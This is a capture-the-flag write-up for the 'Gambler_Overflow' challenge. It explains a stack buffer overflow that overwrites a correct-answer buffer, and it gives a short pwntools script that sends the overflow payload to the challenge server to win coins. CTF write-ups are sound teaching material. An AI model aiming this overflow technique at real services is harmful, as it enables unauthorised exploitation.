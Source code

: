 # Gambler_Overflow
## Description
This challenge gives you an ELF file and remote server that ask you to guess random strings to get coins. Getting enough coins gives you the flag. This time, the random seed is not static.
## Solution
You can overflow the buffer for your guess into the buffer for the correct solution. By making both strings identical you will win and get coins. You need to put null bytes (`\x00`) in between the two buffers because a null byte denotes the end of a string. Otherwise, the first string would keep going until the end of the second string.
## Solve Script
```py
from pwn import *  
context.log_level = "critical"  
r = remote('ctf.b01lers.com', 9203)  
for _ in range(89):  
    r.recvuntil(b"letters: ")  
    r.send(b"a" * 4 + b"\x00" * 4 + b"a" * 4 + b"\n")  
r.send(b"a" * 4 + b"\x00" * 4 + b"a" * 4 + b"\n")  
r.interactive()
```